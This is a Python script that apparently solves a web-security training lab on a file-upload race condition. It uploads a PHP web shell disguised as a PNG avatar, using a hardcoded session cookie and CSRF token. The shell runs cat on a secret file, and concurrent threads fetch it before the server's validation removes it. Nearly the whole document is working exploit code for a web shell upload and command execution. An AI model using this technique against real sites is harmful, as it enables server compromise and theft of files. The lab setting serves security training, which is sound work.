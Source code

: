 ```Python
import requests
from concurrent.futures import ThreadPoolExecutor

TARGET = "https://0a9c00bc04d12037823e0197001d0015.web-security-academy.net"
UPLOAD_ENDPOINT = f"{TARGET}/my-account/avatar"
FETCH_ENDPOINT = f"{TARGET}/files/avatars/s.php"
COOKIES = {"session": "4iCxjPqyDgjqeOYL2cRpGqKGTBAQUpB5"}
CSRF_TOKEN = "15fKC3qvbDJjVr5rBltRBjiBp3zWP0CL"

def upload_shell():
    files = {
        "avatar": ("s.php", "<?php system('cat /home/carlos/secret'); ?>", "image/png"),
        "user": (None, "wiener"),
        "csrf": (None, CSRF_TOKEN),
    }
    response = requests.post(UPLOAD_ENDPOINT, cookies=COOKIES, files=files)
    print(f"Upload Response: {response.status_code} {response.reason}")

def fetch_shell():
    response = requests.get(FETCH_ENDPOINT, cookies=COOKIES)
    if response.status_code == 200 and "Not Found" not in response.text:
        print(f"Secret Found: {response.text.strip()}")
        return
    else:
        print(f"Fetch Response: {response.status_code} {response.reason}")

if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=5) as executor:
        for _ in range(2):
            executor.submit(upload_shell)
        for _ in range(5):
            executor.submit(fetch_shell)
```